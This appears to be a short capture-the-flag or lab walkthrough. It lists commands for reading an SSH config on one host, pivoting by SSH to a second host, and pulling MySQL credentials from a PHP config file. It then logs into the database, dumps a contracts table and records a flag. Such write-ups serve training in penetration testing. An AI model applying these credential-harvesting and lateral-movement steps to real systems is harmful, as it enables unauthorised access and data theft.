 # 08

### ptest3.bis.mil

1.) `ls -R -A $HOME`

  * `.ssh` folder

2.) `cat .ssh/config`

  * user `webmaster` is a `ptest2.bis.mil` host

3.) `ssh webmaster@ptest2.bis.mil`

### ptest2.bis.mil

4.) `cd /var/www/html`

5.) `cat libs/constants.php`

```
define('DB_DRIVER', 'mysql');
define('DB_HOST', 'localhost');
define('DB_HOST_USERNAME', 'arcturus');
define('DB_HOST_PASSWORD', '16431879196842');
define('DB_DATABASE', 'arcturus');
```

6.) `mysql -u arcturus -p16431879196842`

7.) `use arcturus;`

8.) `show tables;`

  * tables: contracts, pages, tagline

9.) `select * from contracts;`

10.) **J_20-11-22-38-01_2a87a2c2ad810dfd8d839eae1216c65732cb84a896b730c4ed77c3be966f790f**
